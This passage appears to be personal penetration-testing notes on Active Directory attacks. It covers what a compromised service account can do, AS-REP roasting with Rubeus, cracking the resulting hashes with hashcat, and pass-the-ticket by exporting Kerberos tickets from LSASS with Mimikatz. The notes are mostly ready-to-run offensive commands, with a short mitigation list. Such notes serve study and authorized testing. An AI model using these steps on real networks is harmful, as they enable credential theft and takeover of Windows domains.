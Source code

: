 ## What Can a Service Account do?

- There are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not.
- If the service account is a domain admin, we can dump NTDS.dit.
- If the service account isn't a domain admin, we can escalate privileges or even spray passwords the password against other accounts

## Mitigation
- Strong passwords (As always -_-)
- Don't make services accounts domain admins

# AS-REP ROASTING / RUBEUS

 AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.  
- This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.
 ```bash
 Rubeus.exe asreproast 
 ```

***Be careful, you need to add 23$ after $krb5asrep$***
(To me, it seems to work even less 23$)

Then, crack the hash
```bash
hashcat -m 18200 hash.txt Pass.txt
```

# PASS THE TICKET (PTT)/ MIMIKATZ

## OVERWIEW
Mimikatz is well known to be a great tool to dump credentials from AD but it cans also be useful to dump tickets in Kerberos

### How 'Pass the ticket' works
1) Mimikatz dumps the TGT from LSASS (it will gives a .kirbi ticket)
2) Pass the ticket and acts as it's original owner

## PREPARE MIMIKATZ & DUMP THE TiCKET
```cmd
mimikatz.exe
privilege::debug
```
Ensure this output is '20'OK
If it doesn't, it means that you don't have admin privileges
```cmd
sekurlsa::tickets /export
```
This will export the ticket (.kirbi) to the directory you're in
***At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier we harvested earlier***
